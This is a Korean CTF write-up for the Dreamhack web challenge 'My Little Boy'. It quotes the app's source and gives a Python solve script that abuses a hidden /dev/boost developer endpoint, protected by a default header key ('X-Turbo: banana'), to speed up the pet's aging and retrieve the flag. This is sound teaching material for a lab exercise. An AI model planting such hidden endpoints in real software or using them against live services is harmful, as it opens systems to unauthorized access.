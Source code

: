 ```yaml
---
layout: single
title: "[Dreamhack] My Little Boy write-up"
date: 2025-08-19 20:09 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] My Little Boy

### ✏️ 문제 설명

- 저를 키워주세요!
  개발자 몰래 서버에 도움 될 만한 코드를 숨겨뒀습니다!

<br>

### 풀이

문제에 접속하면 이름을 만들어 생성하고, 먹이주기 등 버튼이 존재한다. 틱이라는게 존재하는데 지날 때마다 배고픔, 행복, 위생이 줄어들어 버튼을 눌러줘야 죽지 않는 것을 알 수 있다.

![image-20250819205528641](/images/2025-08-19-My-Little-Boy/image-20250819205528641.png)

<br>

flag 부분의 소스 코드를 살펴보면 세션의 name_set 값과 `FLAG_AGE` 라는 값보다 커야 /flag 경로에 접속해서 flag를 획득할 수 있다는 것을 알 수 있다.

```python
    @app.get("/flag")
    def flag():
        pet = get_pet()
        if not bool(session.get("name_set", False)):
            return Response("forbidden", status=403, mimetype="text/plain")
        if pet.age < FLAG_AGE:
            return Response("forbidden", status=403, mimetype="text/plain")
        try:
            with open(FLAG_PATH, "r", encoding="utf-8") as f:
                txt = f.read().strip()
        except Exception:
            return Response("flag not found", status=500, mimetype="text/plain")
        resp = Response(txt, mimetype="text/plain; charset=utf-8")
        resp.headers["Cache-Control"] = "no-store"
        return resp
```

<br>

아래는 소스 코드의 처음 부분으로 변수 부분을 보면 `FLAG_AGE` 값이 10이므로, 이 값이 10보다 커야 하는 것을 알 수 있다.

```python
BOOST_HEADER = os.environ.get("BOOST_HEADER", "X-Turbo")
BOOST_KEY = os.environ.get("BOOST_KEY", "banana")  

APP_ROOT = os.path.dirname(os.path.abspath(__file__))
FLAG_PATH = os.path.join(APP_ROOT, "flag.txt")
FLAG_AGE = float(os.environ.get("FLAG_AGE", "10")) 
```

<br>

/state 경로에서 보면 생성하면 자동으로 `name_set` 값이 true가 되므로 나이만 10이 넘으면 되겠다. 문제점은 틱이 지날 때마다 나이가 0.1씩 증가하는데 엄청 오래걸린다.

![image-20250819205941429](/images/2025-08-19-My-Little-Boy/image-20250819205941429.png)

<br>

아래 코드에서는 POST 메소드로 `/dev/boost` 경로에 요청할 수 있다. 위에 봤던 `BOOST_HEADER` 와 `BOOST_KEY` 값을 헤더에 맞춰서 넣어줘야 하며, x에 값은 1에서 50으로 정해져 있는데 이 경로를 통해 틱 값을 더 빠르게 조절할 수 있다.

```python
@app.post("/dev/boost")
    def dev_boost():
        if request.headers.get(BOOST_HEADER) != BOOST_KEY:
            return jsonify({"ok": False, "error": "forbidden"}), 403
        data = request.get_json(silent=True) or {}
        try:
            x = float(data.get("x", 1.0))
        except Exception:
            x = 1.0
        x = max(1.0, min(x, 50.0)) 
        session["tick_scale"] = x
        session.modified = True
        return jsonify({"ok": True, "tick_scale": x, "effective_interval": max(MIN_INTERVAL, TICK_INTERVAL / x)})
```

<br>

문제점으로는 틱이 빨라지면 나이도 빨리차는 대신에 배고픔 등도 같이 빨리 단다는 것이다. 이는 아래 `/action` 경로에서 action을 지정해서 값이 원하는 값보다 떨어지면 action을 계속해서 요청해 해결할 수 있다.

```python
    @app.post("/action")
    def do_action():
        pet = get_pet()
        try:
            payload = request.get_json(force=True, silent=True) or {}
        except Exception:
            payload = {}
        action = (payload.get("type") or "").strip().lower()
        if action not in {"feed", "play", "clean", "heal", "scoop", "pet"}:
            return jsonify({"ok": False, "error": "unknown action"}), 400
        pet.act(action, payload, now=time.time())
        pet.last_tick = time.time()
        session["pet"] = pet.to_dict()
        session.modified = True
        now = time.time()
        remaining = 0.0
        if pet.pet_request_active and pet.pet_request_until > 0:
            remaining = max(0.0, pet.pet_request_until - now)
        return jsonify({
            "ok": True,
            "pet": pet.to_dict(),
            "poops": pet.poops,
            "poop_count": len(pet.poops),
            "pet_request_active": pet.pet_request_active,
            "pet_request_remaining": round(remaining, 1),
        })
```

<br>

아래와 같이 파이썬으로 작성하여 나이가 10이 넘어가면 /flag 경로에 접속하여 flag를 획득할 수 있다.

```python
import requests as R

from time import sleep


def main():
    conn = R.Session()

    # Reset
    res = conn.post(f"{BASE_URL}/reset").json()
    assert res["ok"]

    # Give name
    res = conn.post(f"{BASE_URL}/init_name", json={"name": "X"}).json()
    assert res["ok"] and "pet" in res
    
    # Give boost to tick
    headers = {"X-Turbo": "banana"}
    res = conn.post(f"{BASE_URL}/dev/boost", headers=headers, json={"x": 50.0})
    print(res.json())

    while True:
        res = conn.get(f"{BASE_URL}/state").json()
        for action in ("feed", "play", "clean", "heal", "scoop", "pet"):
            res = conn.post(f"{BASE_URL}/action", json={"type": action}).json()
            assert res["ok"]
        pet_age = res["pet"]["age"]
        print(f"Current age: {pet_age}")
        if pet_age > 10.0:
            res = conn.get(f"{BASE_URL}/flag")
            print(f"Flag: {res.text}")
            break
        sleep(1)


if __name__ == "__main__":
    BASE_URL = "http://host8.dreamhack.games:0000/"
    main()

```

